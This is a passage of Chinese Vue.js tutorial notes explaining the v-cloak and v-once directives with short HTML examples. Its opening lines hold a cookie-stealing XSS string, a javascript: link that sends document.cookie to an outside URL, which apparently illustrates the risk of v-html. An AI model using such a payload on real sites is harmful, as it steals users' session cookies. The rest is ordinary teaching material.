 ```html
                str: "<a href=javascript:location.href='https://www.baidu.com?'+document.cookie>哥们，我这里有好看的</a>"
            }
        })
    </script>
</body>
```



### ③c-cloak指令

```html
<body>
    <!-- 
        v-cloak指令（没有值）：
            1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
            2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
                解释：就是由于网速慢，js加载慢，vue实例就不能被创建，所以模板未能被渲染
                解决：使用v-cloak指令和css来解决，css可以这样设置 -> [v-cloak]{display:none},
                      当模板渲染的时候就会删除掉v-cloak属性，从而解决模板未经渲染的问题
	-->
    <div id="root">
        <h2>Welcome from {{name}}</h2>
    </div>
</body>
<script>
    // 关闭生产提示
    Vue.config.productionTip = false
    const vm = new Vue({
        el: "#root",
        data: {
            name: "王者荣耀"
        },
    })
</script>
```



### ④v-once指令

```html
<body>
    <!-- 
        v-once指令：
            1.v-once所在节点在初次动态渲染后，就视为静态内容了(就是不会发生变化的内容)。
            2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
	-->
    <div id="root">
        <h2 v-once>初始的n值为：{{n}}</h2>
        <h2>变化的n值：{{n}}</h2>
        <button @click='n++'>n++</button>
    </div>
</body>
<script>
    Vue.config.productionTip = false
    const vm = new Vue({
        el: "#root",
        data: {
            n: 1
        },
    })
</script>
```

